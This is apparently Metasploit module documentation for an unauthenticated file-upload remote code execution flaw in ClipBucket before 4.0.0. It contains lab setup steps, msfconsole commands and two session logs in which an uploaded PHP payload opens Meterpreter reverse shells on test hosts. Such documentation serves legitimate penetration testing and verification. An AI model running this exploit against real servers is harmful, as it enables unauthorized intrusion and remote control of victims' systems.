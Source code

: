 ## Description

A malicious file can be uploaded by an unauthenticated attacker through the `actions/beats_uploader.php` script.
ClipBucket < 4.0.0 - Release 4902 is vulnerable.  Additional information and vulnerabilities can be viewed on
Exploit-DB [44250](https://www.exploit-db.com/exploits/44250/)

## Vulnerable Application

Available at [Exploit-DB](https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip)

## Vulnerable Application Installation

Download Application: ```wget https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip```

Unzip: ```unzip 60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip ```

Move In WebDirectory: ```mv clipbucket-4881/upload/* /var/www/html/```

Change Owner: ```chown -R www-data:www-data /var/www/html/```

Follow Clipbucket Installer Instructions at: ```http://localhost/```


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/clipbucket_fileupload_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set lport <port>`
  7. Do: `set lhost <ip>`
  8. Do: `exploit`
  9. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios

### ClipBucket on Kali Linux

```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.4
rhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set targeturi clipbucket
targeturi => clipbucket
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 5050
lport => 5050
msf exploit(multi/http/clipbucket_fileupload_exec) > run 

[*] Started reverse TCP handler on 10.22.1.4:5050 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php 
[*] Executing Payload [ clipbucket/actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php ]
[*] Sending stage (37543 bytes) to 10.22.1.4
[*] Meterpreter session 1 opened (10.22.1.4:5050 -> 10.22.1.4:41752) at 2018-03-12 13:52:10 +0530
[+] Deleted 1520842928949a3f.php

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 4.14.0-kali3-amd64 #1 SMP Debian 4.14.17-1kali1 (2018-02-16) x86_64
Meterpreter : php/linux
meterpreter > 
```
### ClipBucket on Windows 7

```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.13
rhost => 10.22.1.13
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set TARGETURI clipbucketest
TARGETURI => clipbucketest
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4 
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 4545
lport => 4545
msf exploit(multi/http/clipbucket_fileupload_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.4:4545 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php 
[*] Executing Payload [ clipbucketest/actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php ]
[*] Sending stage (37543 bytes) to 10.22.1.13
[*] Meterpreter session 1 opened (10.22.1.4:4545 -> 10.22.1.13:49166) at 2018-03-12 14:11:10 +0530
[+] Deleted 152084407045df09.php

meterpreter > sysinfo 
Computer    : AGENT22-PC
OS          : Windows NT AGENT22-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 
```
